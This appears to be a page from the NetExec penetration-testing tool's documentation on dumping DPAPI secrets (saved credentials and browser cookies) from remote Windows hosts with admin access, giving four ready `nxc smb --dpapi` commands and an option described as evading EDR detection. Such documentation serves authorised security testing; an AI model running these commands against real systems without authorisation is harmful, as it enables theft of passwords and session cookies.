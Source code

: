 ```yaml
---
description: Dump DPAPI credentials using NetExec
---
```


# Dump DPAPI

You can dump DPAPI credentials using NetExec using the following option: `--dpapi`. It will get all secrets from Credential Manager, Chrome, Edge, Firefox. `--dpapi` supports the following options :

* cookies : Collect every cookies in browsers
* nosystem : Won't collect system credentials. This will prevent EDR from stopping you from looting passwords :fire:

{% hint style="danger" %}
You need at least local admin privilege on the remote target, use **--local-auth** if your user is a local account
{% endhint %}

```
$ nxc smb <ip> -u user -p password --dpapi
$ nxc smb <ip> -u user -p password --dpapi cookies
$ nxc smb <ip> -u user -p password --dpapi nosystem
$ nxc smb <ip> -u user -p password --local-auth --dpapi nosystem
```
